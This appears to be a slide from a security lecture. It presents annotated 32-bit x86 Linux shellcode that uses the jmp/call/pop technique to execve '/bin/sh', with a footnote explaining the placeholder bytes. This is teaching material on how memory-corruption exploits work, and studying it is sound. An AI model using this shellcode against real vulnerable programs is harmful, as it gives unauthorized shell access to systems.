

# Our shellcode

   start: jmp    mcall
    ajmp: pop    %ebx		  // ebx holds str_addr
          mov    $0x0, %eax
          mov    %al,0x7(%ebx)      // null terminator
          mov    %ebx,0x8(%ebx)     // put str_addr at AAAA
          mov    %eax,0xc(%ebx)     // put 0000 at BBBB
          mov    $0xb,%eax          // kernel code for execve
          lea    0x8(%ebx),%ecx     // ptr to array of ptrs (argv)
          lea    0xc(%ebx),%edx     // ptr to 0000 (envp)
          int    $0x80
   mcall: call   ajmp
str_addr: “/bin/shxAAAABBBB”

AAAABBBB only for illustrative
purposes; not needed in shellcode
but the memory has to be available to
be overwritten